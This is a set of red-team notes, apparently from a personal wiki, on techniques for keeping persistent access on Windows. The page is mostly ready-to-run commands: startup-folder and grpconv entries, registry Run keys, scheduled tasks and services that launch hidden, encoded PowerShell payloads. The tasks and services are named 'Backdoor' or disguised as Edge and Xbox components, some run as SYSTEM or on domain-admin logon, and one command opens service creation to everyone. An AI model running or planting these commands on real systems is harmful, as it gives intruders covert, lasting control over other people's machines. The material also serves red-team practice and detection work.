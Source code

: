 ```yaml
---
title: Windows Persistence
---
```


[[notes/mitre-attack/persistence]] on [[notes/windows/index]].

# Startup Folder

As unprivileged user write an executable or LNK file into the autostart folder at `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` or as local admin at `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`.
It will be executed on logon in the users context.

`grpconv.exe` can be used to create files inside the autostart folder ([Source](https://mobile.twitter.com/cyb3rops/status/1526952076940652546)).

First write `%userprofile%\setup.ini`:

~~~
[progman.groups]
group001=Startup

[group001]
"FILENAME",PROGRAM,ICON,0,UNKNOWN,UNKNOWN,UNKNOWN
"Relative Calculator",calc.exe,calc.exe,0,,,
"Absolute Calculator",C:\Windows\System32\calc.exe,C:\Windows\System32\calc.exe,0,,,
"Calculator over CMD",cmd /c calc,calc.exe,0,,,
~~~

Then execute `grpconv.exe -o` to create the entry.

> **Note:**
> It is possible to use some environment variables in the *PROGRAM* field.
> For example `%comspec%` works, but `%userprofile%` doesn't, because `C:\` gets prepended somehow.

References:

- [persistence-info.github.io/data/startupfolder.html](https://persistence-info.github.io/Data/startupfolder.html)

# Registry Autorun Keys

As unprivileged user execute a command when the user logs in.

=== "builtin"
    ~~~ bat
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

As local admin execute a command when any user logs in (in the users context).

=== "builtin"
    ~~~ bat
    reg.exe add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

References:

- [persistence-info.github.io/data/run.html](https://persistence-info.github.io/Data/run.html)

# Scheduled Task

As unprivileged user execute a command every hour.

=== "[[notes/tools/sharpersist]]"
    ~~~ bat
    .\SharPersist.exe -t schtask -n "MicrosoftEdgeUpdateTaskMachine" -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-w hidden -noni -nop -e %PAYLOAD%" -o daily -m add
    ~~~

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc daily
    ~~~

As local admin execute a command on boot.

=== "bulitin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onstart /ru "NT Authority\SYSTEM" /rl highest
    ~~~

As local admin, execute a command when a member of a high value group logs in.

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onlogon /ru "corp.local\domain admins" /rl highest
    ~~~

Remove a scheduled task.

=== "builtin"
    ~~~ bat
    schtasks.exe /delete /tn "MicrosoftEdgeUpdateTaskMachine" /f
    ~~~

References:

- [persistence-info.github.io/data/taskscheduler.html](https://persistence-info.github.io/Data/taskscheduler.html)

# Service

Create a service as local admin.

=== "builtin"
    ~~~ bat
    sc.exe create XboxNetApi binPath= "C:\Program Files\Vendor\Backdoor.exe" start= auto
    sc.exe start XboxNetApi
    ~~~

As local admin allow everybody to create a service that runs as `system` ([source](https://twitter.com/0gtweet/status/1628720819537936386)).

=== "builtin"
    ~~~ bat
    sc.exe sdset scmanager D:(A;;KA;;;WD)
    ~~~

References:

- [persistence-info.github.io/data/services.html](https://persistence-info.github.io/Data/services.html)

# WMI Event Subscription

Under construction 🚧

# DLL Hijacking

Under construction 🚧

As local admin on a Windows Server write `wlanapi.dll` anywhere into the system `PATH`, then trigger NetMan from an interactive session trough COM ([source](http://web.archive.org/web/20230629210511/https://itm4n.github.io/windows-server-netman-dll-hijacking/)).

# COM Hijacking

Under construction 🚧
